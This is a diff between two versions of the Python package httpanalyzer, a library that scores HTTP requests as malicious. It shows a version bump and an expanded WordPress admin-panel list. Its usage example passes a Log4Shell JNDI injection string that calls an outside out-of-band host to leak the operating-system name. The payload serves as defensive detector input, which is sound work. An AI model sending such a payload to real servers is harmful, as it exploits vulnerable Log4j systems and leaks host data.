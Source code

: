```diff
     'xmldata?item=cpqkey',
```

### Comparing `httpanalyzer-0.1.3/src/httpanalyzer.egg-info/PKG-INFO` & `httpanalyzer-0.1.4/src/httpanalyzer.egg-info/PKG-INFO`

 * *Files 10% similar despite different names*

```diff
@@ -1,10 +1,10 @@
 Metadata-Version: 2.1
 Name: httpanalyzer
-Version: 0.1.3
+Version: 0.1.4
 Summary: Library for analyzing http-requests
 Author-email: Martin Merkli <martin.merkli@protonmail.com>
 License: MIT License
 Project-URL: homepage, https://github.com/MartinMerkli/httpanalyzer
 Project-URL: repository, https://github.com/MartinMerkli/httpanalyzer
 Keywords: python,http
 Classifier: License :: OSI Approved :: MIT License
@@ -70,22 +70,22 @@
      'Accept-Encoding': 'gzip, deflate, br',
      'Accept-Language': 'en-US,en;q=0.5',
      'Connection': 'keep-alive',
      'Host': '127.0.0.1:80',
      'User-Agent': 'curl/7.82.0'},
     '159.223.205.51',
     '/api/geojson?url=${jndi:ldap://${sys:os.name}.cd387hid68000106u4rtc.oast.me}',
-    ['wp-content', 'wp-config', 'wp-includes']
+    ['wp-content', 'wp-config', 'wp-includes', 'wp-admin', 'admin']
 )
 print(f"Malicious rating: {instance.malicious() * 100}%")
 ```
 
 ### Admin Panels
 
-To reduce the amount of false positives, specify all admin panels you are using. For WordPress this would be `['wp-content', 'wp-config', 'wp-includes']`.
+To reduce the amount of false positives, specify all admin panels you are using. For WordPress this would be `['wp-content', 'wp-config', 'wp-includes', 'wp-admin', 'admin']`.
 
 ### Flask
 
 httpanalyzer natively supports flask request objects:
 
 ```
 instance = httpanalyzer.FlaskRequest(flask.request)
```

#### html2text {}

